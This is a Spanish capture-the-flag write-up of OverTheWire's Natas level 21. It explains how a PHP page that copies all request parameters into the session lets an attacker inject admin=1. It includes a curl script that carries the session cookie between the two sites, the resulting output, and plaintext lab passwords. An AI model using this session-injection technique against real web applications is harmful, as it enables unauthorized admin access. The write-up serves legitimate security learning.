 ```yaml
---
title: Natas-21
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas21
 pass:IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

Este nivel trata de conseguir la variable de $_SESSION['admin']=1 para poder superar la prueba. 
Tendremos dos códigos php a estudiar. El de la pág principal que es el código que hemos encontrado en anteriores retos


```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
session_start();
print_credentials();

?>
```

Y el código que tenemos que estudiar es en la url http://natas21-experimenter.natas.labs.overthewire.org/

```php

<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>"; 

?>


Estudiando el código nos tenemos que centrar en el siguiente bloque de código

```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

Si existe $_REQUEST guardará el valor de estas variables en $_SESSION. Tenemos restringido las variables por POST, solo se permiten:

```php
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
```

Para que se nos guarden en $_SESSION las variables que queremos, tenemos que enviar en la misma petición la parte POST y GET donde inyectaremos variables

Se puede realizar esto en la parte de inspección de firefox u otro navegador. Yo he decidido finalmente realizar estas peticiones por bash mediante curl

```bash

#!/bin/bash

# seteamos urls. en url_exp estan declaradas las variables por GET
url_exp='http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug&admin=1'
url_main='http://natas21.natas.labs.overthewire.org/index.php'

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Primero la cookie url_main http://natas21.natas.labs.overthewire.org/
# tenemos que ir arrastrando la cookie entre las páginas que vamos visitando. Sino no funcionará
curl --cookie-jar cookie.txt -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ $url_main
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Realizamos conexión, arrastrando la cookie a natas21-experimenter.natas.labs.overthewire.org
#En esta petición enviamos los parametros POST y los GET (estan en la variable $url_exp /index.php?debug&admin=1
curl --cookie "PHPSESSID=$cookie" --referer $url_main $url_exp -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ -X POST -F align=center -F fontsize=100% -F bgcolor=yellow -F submit=Update


echo "<br>"
echo "<br>"
echo 'ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

# vamos de nuevo a la pagina principal arrastrando la cookie y las variables de _SESSION de natas21-experimenter
curl --cookie "PHPSESSID=$cookie" --referer $url_exp $url_main -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ

```

Ejecuto el código en bash

```
admin1@php:~$ bash bash-natas21.bash | html2text 


ENTRANDO EN: natas21.natas.labs.overthewire.org

****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials
for natas22.
View_sourcecode


ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org

****** natas21 - CSS style experimenter ******
Note: this website is colocated with http://natas21.natas.labs.overthewire.org
[DEBUG] Session contents:
Array ( [debug] => [admin] => 1 [align] => center [fontsize] => 100% [bgcolor]
=> yellow [submit] => Update )
Example:
Hello world!
Change example values here:
align: [center              ]
fontsize: [100%                ]
bgcolor: [yellow              ]
[Update]
View_sourcecode


ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org


****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
View_sourcecode
```


Las credenciales del siguiente reto:

```
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

[Volver al archivo](archive)

